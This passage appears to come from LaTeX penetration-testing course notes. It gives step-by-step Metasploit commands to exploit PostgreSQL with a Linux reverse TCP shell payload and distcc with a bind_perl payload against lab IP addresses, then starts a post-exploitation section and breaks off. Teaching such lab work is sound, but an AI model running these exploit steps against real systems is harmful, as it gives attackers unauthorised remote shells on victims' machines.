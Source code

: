 \begin{enumerate}
    \item \texttt{msf5 > use exploit/linux/postgresql/postgresql\_payload}
    \item \texttt{msf5 > show payloads} \\
    \begin{infobox}[innermargin=-25pt]
        \texttt{show payloads} shows only the payloads applicable to the selected module.
    \end{infobox}
    \item \texttt{msf5 > set payload linux/x86/shell\_reverse\_tcp}
    \item \texttt{msf5 > show options}
    \item \texttt{msf5 > set RHOST 10.0.2.4}
    \begin{infobox}[innermargin=-25pt]
        The next IP is the IP where the target will try to connect, so it has to be an IP we control and reachable by the target. 
    \end{infobox}
    \item \texttt{msf5 > set LHOST 10.0.2.15}
    \item \texttt{msf5 > show targets}
    \item \texttt{msf5 > set TARGET 0}
    \item \texttt{msf5 > run}
\end{enumerate}

\begin{tipbox}[frametitle=Tip: Getting Interactive Shell]
    After getting a basic shell, you can get an interactive shell with: \\
\end{tipbox}

Another example:

\begin{enumerate}
    \item \texttt{msf5 > use exploit/unix/misc/distcc\_exec}
    \item \texttt{msf5 > show payloads}
    \item \texttt{msf5 > set payload cmd/unix/bind\_perl}
    \item \texttt{msf5 > show options}
    \item \texttt{msf5 > host -r}
    \item \texttt{msf5 > run}
\end{enumerate}

\section{Post Exploitation}
Metasploit's payload determines the type of access that we have after exploiting the target. In general, there are three types:

